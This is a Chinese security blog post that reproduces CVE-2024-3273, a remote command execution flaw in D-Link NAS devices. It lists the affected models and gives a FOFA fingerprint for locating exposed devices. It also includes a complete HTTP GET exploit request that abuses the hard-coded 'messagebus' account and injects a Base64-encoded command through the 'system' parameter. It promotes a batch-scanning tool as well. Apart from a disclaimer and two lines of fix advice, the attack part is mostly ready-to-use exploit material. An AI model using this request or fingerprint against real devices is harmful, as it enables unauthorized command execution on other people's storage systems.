 #  【漏洞复现】D-Link NAS 远程命令执行漏洞(CVE-2024-3273)   
原创 清风  白帽攻防   2024-11-19 09:52  
  
## 免责声明：请勿使用本文中提到的技术进行非法测试或行为。使用本文中提供的信息或工具所造成的任何后果和损失由使用者自行承担，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
简介  
  
D-Link NAS（网络附加存储）是通过网络连接的存储设备，允许多个设备共享和存储数据。作为一家知名的网络设备品牌，D-Link 提供多种 NAS 解决方案，广泛应用于家庭和企业环境中。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yu6trpdUX0dakQkvYTcT4pr9bd9LAZXfXfds3MLKp08Xnf2cpkQ3icXT4wlXTbNZAr9AiaftKI5f2pZshDcPUMAw/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
漏洞描述  
  
通过硬编码帐户（用户名：“messagebus”和空密码）造成的后门以及“system”参数的命令注入问题，攻击者可在设备上远程执行命令。命令注入漏洞通过 HTTP GET 请求将 Base64 编码的命令添加到“system”参数中从而被执行。  
影响版本```
DNS-320L
DNS-325
DNS-327L 
DNS-340L
```  
fofa语法```
fid="hWN+yVVhLzKJaLkd/ITHpA=="
```  
漏洞复现```
GET /cgi-bin/nas_sharing.cgi?user=messagebus&passwd=&cmd=15&system=cHdk HTTP/1.1Host: IPUser-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2Accept-Encoding: gzip, deflate, brConnection: closeUpgrade-Insecure-Requests: 1Priority: u=0, i
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yu6trpdUX0dsnxBzMsDoZLEIJ5Ricybib7SFknZCecWDuRrGSibbN3jTJCQ4oN3ib3InyYksm6wpty7eibvbdwziaiaibg/640?wx_fmt=png&from=appmsg "")  
  
批量检测（批量检测POC工具请在公众号知识星球获取）：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/yu6trpdUX0dsnxBzMsDoZLEIJ5Ricybib762CzKibvlGhDf9uMNv7NxyZpPPbIZtOyR06sfxwBBt5JtJVhWbL7dUQ/640?wx_fmt=png&from=appmsg "")  
修复建议  
  
  
  
  
1、关闭互联网暴露面或接口  
  
2、及时更新补丁或升级至安全版本  
  
  
  
  
网安交流群  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/yu6trpdUX0efFOzibVic3qjn100tFgpUIh7ib8g9cKajewKFM5kXP350q21SCLvlgO6yx1tlia8VYxI4j3cv57FqFg/640?wx_fmt=other&from=appmsg&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
